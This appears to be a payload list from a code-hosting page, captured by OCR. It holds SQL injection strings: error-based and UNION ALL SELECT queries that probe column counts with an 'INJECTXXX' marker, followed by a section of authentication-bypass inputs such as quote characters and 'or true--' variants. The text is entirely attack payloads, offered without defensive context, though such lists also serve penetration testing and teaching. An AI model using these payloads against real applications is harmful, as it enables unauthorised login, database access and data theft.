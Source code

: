            AND (SELECT 4523 FROM(SELECT COUNT(*),CONCAT(0x716a7a6a71,(SELECT (ELT(4523=4523,1))),0x71706a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
           UNION ALL SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+CHAR(110)+CHAR(106)+CHAR(99)+CHAR(73)+CHAR(66)+CHAR(109)+CHAR(119)+CHAR(81)+CHAR(108)+CHAR(88)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113),NULL-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX'
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6

           UNION ALL SELECT 'INJ'||'ECT'||'XXX'-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14-- 
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 

           UNION ALL SELECT 'INJ'||'ECT'||'XXX'#
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2#
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3#
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4#
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5#
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6#
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7#
           UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8#

          
## SQL Injection Auth Bypass Payloads

     '-'
     ' '
     '&'
     '^'
     '*'
     ' or ''-'
     ' or '' '
     ' or ''&'
     ' or ''^'
     ' or ''*'
     "-"
     " "
     "&"
     "^"
     "*"
     " or ""-"
     " or "" "
     " or ""&"
     " or ""^"
     " or ""*"
     or true--
     " or true--
     ' or true--
     ") or true--
     ') or true--